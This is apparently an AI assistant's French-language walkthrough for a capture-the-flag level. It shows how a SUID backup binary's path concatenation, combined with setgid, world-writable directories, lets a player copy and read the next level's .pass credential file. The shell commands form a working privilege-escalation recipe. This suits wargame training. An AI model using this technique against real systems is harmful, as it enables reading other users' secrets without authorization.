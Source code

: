 Yes, tu peux « rentrer » avec ce binaire. Le code concatène bêtement "./backups/" + l’argument. Si tu donnes un chemin absolu, la cible devient ./backups//home/users/level09/.pass. L’échec vient juste du fait que les sous-répertoires backups/home/users/level09 n’existent pas.

Ensuite, détail crucial : le fichier de destination est créé avec open(..., O_WRONLY|O_CREAT|O_EXCL, 0660). Le binaire est très probablement SUID level09, donc:

il lit /home/users/level09/.pass (ok, privilèges level09),

il écrit la copie sous ./backups/... en la possédant (uid=level09, gid=level09),

avec les perms 0660, tu ne liras pas si le groupe n’est pas le tien.

La ruse classique consiste à forcer l’héritage du groupe de ton répertoire via le bit setgid sur le dossier qui recevra le fichier, et à laisser ce dossier world-writable pour que le binaire SUID puisse y créer le fichier.

Recette pas-à-pas
bash
￼Copier le code
cd /home/users/level08

# 1) Créer l’arborescence qui matche le chemin demandé
mkdir -p backups/home/users/level09

# 2) Mettre le bit setgid et autoriser l’écriture pour tous
#    (le setgid fait hériter le *groupe* du dossier aux nouveaux fichiers)
chmod 2777 backups backups/home backups/home/users backups/home/users/level09
# (chgrp n'est pas nécessaire: ces dossiers sont déjà dans ton groupe)

# 3) Lancer le binaire avec le chemin absolu comme argument
/home/users/level08/level08 /home/users/level09/.pass
Si tout se passe bien, la copie arrive ici, avec gid = ton groupe grâce au setgid :

bash
￼Copier le code
ls -l backups/home/users/level09/.pass
# -> -rw-rw---- 1 level09 <ton-groupe> ... backups/home/users/level09/.pass

# 4) Lire le contenu
cat backups/home/users/level09/.pass
